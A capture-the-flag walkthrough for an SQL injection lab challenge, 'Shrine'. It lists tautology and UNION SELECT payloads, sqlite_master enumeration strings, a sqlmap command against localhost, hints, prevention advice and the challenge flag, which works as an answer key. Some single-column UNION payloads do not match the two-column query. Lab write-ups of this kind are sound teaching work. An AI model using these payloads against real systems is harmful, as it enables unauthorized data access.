 # Shrine Walkthrough

## Challenge Overview
**Difficulty**: Medium  
**Vulnerability**: SQL Injection  
**Flag**: nhc{d3c3pt10n_r3v34ls_truth}

## Story Context
Hattori investigates the Shrine of Deception, where ancient scrolls hold wisdom accessible through clever queries.

## Solution Steps

### Step 1: Access the Challenge
1. Navigate to `/challenge/shrine`
2. Observe the search form for ancient scrolls

### Step 2: Understand the Vulnerability
The search form allows querying scroll titles. The backend uses string concatenation in SQL:
```sql
SELECT title, content FROM scrolls WHERE title LIKE '%{query}%'
```

### Step 3: Test Basic Injection
1. Try a simple payload: `' OR '1'='1`
2. This should return all records from the scrolls table

### Step 4: Discover Hidden Tables
1. Use UNION to access hidden tables
2. Try: `' UNION SELECT hidden_title, hidden_content FROM wisdom_secrets --`
3. This accesses the hidden table containing the flag

### Step 5: Extract the Flag
The query should return:
- Title: Secret Wisdom
- Content: nhc{d3c3pt10n_r3v34ls_truth}

## Hints

### Hint 1
> The shrine holds more than meets the eye. Try to break free from the intended search functionality.

### Hint 2
> SQL injection often involves manipulating WHERE clauses. What happens if you make the condition always true?

### Hint 3
> Look for hidden tables that aren't mentioned in the suggestions. UNION SELECT can reveal secrets.

## Educational Notes

### What You Learned
- **SQL Injection**: Injecting malicious SQL into queries
- **String Concatenation Vulnerabilities**: Never build SQL with string addition
- **UNION Attacks**: Combining results from multiple tables
- **Database Enumeration**: Discovering hidden tables and columns

### Real-World Impact
- Data breaches through SQL injection
- Unauthorized data access
- Database manipulation
- Credential theft

### Prevention
- Use parameterized queries
- Prepared statements
- Input sanitization
- ORM frameworks
- Least privilege database users

## Alternative Payloads

### Basic Injection
```
' OR '1'='1' --
```
Returns all records from scrolls table.

### Table Discovery
```
' UNION SELECT name FROM sqlite_master WHERE type='table' --
```
Lists all tables in the database.

### Column Discovery
```
' UNION SELECT sql FROM sqlite_master WHERE name='wisdom_secrets' --
```
Shows the structure of the hidden table.

### Direct Flag Access
```
' UNION SELECT hidden_title, hidden_content FROM wisdom_secrets --
```

## Common Mistakes
- Forgetting the comment syntax (`--`) to ignore rest of query
- Not handling single quotes properly
- Using wrong table/column names
- Not testing basic injection first

## Testing with SQLMap
```bash
sqlmap -u "http://localhost:5000/challenge/shrine" --data="query=*" --batch
```

## Next Steps
Submit the flag from the hidden table to unlock the Spirit challenge.
